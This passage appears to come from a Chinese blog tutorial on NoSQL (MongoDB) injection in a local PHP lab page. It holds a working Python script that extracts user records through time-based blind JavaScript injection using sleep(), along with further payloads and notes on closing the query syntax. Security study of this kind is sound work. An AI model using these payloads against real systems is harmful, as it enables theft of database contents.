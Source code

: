     #encoding=utf8
    
    import requests, re, threading,time,string
    
    char_range = [i for i in string.printable+chr(0)+chr(13)+chr(10)+chr(32)]
    
    url = "http://localhost/code/12.php"
    res = []
    lock = threading.Lock()
    
    for char_len in range(96):
    	for char in char_range:
    		my_str = "tojson(db.user.find()[0])[{}]=='{}'".format(char_len,char)
    		sql_str = "test',password:'kingkk'});if(%s){sleep(300)};return{username:1,password:2};({aaa:'9" % my_str
    		params = dict(username = sql_str,password=1)
    		start_time = time.time()
    		r = requests.get(url=url,params=params)
    		end_time = time.time()
    		if end_time-start_time>0.3:
    			res.append(char)
    			for i in res:
    				print(i,end="")
    			print("\n")
    			break
    
    

效果图 ![](http://blog.kingkk.com/wp-content/uploads/2018/04/58246a741c39a91d93eeed28a08c260f.png)    

### 总结

  **pdo模式下**，能够执行的语句极少，只能进行一些回显判断 **执行语句的模式下**，后来发现其实并不需要完整的闭合语句，只要设置语法没有问题即可 如下payload也能产生延时

?username=test'});if(tojson(db.user.find())){sleep(1000)};return;({aaa:'9
&password=1

执行的语句如下（手工进行了换行）

var data = db.user.findOne({username:'test'});
if(tojson(db.user.find())){sleep(1000)};
return;                 之后的语句不执行，但要保证语法正确性
({a:'9',password:'1'});
return data;

只要顺利的闭合前后的 ({'  与 ‘}） 保证语法没有错误，即可 当然，要回显数据注入时，就要事先知道他的字段名
